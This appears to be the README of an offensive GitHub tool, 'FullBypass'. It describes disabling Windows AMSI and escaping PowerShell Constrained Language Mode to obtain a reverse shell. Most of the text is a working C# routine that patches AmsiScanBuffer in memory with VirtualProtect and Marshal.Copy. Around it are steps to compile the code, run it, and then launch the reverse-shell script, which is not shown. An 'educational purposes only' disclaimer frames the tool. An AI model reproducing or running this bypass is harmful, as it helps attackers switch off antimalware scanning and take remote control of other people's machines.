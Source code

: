 # FullBypass

## Disclaimer
This tool is intended for educational purposes only. Unauthorised use of this tool is prohibited. Use responsibly and ensure you have proper authorisation before testing any security measures.

## Overview
This repository contains a tool that demonstrates how to bypass AMSI (AntiMalware Scan Interface) and PowerShell Constrained Language Mode (CLM) to achieve a FullLanguage PowerShell reverse shell.

## Usage
1. Compile the C# code using `msbuild`.
2. Execute the compiled binary to disable AMSI.
3. Run the PowerShell script to establish a reverse shell.

## Educational Content
Understanding how security measures like AMSI and CLM can be bypassed is crucial for developing more robust security defenses. This knowledge should be used responsibly and ethically.

## Basic C# Bypass Attempt
```csharp
using System;
using System.Runtime.InteropServices;

public class AMSIBypass
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    public static void Bypass()
    {
        var hModule = LoadLibrary("amsi.dll");
        var addr = GetProcAddress(hModule, "AmsiScanBuffer");
        VirtualProtect(addr, (UIntPtr)5, 0x40, out var oldProtect);
        Marshal.Copy(new byte[] { 0x31, 0xFF, 0x90 }, 0, addr, 3);
        VirtualProtect(addr, (UIntPtr)5, oldProtect, out _);
    }

    public static void Main(string[] args)
    {
        Bypass();
        Console.WriteLine("AMSI Bypass Applied");
    }
}
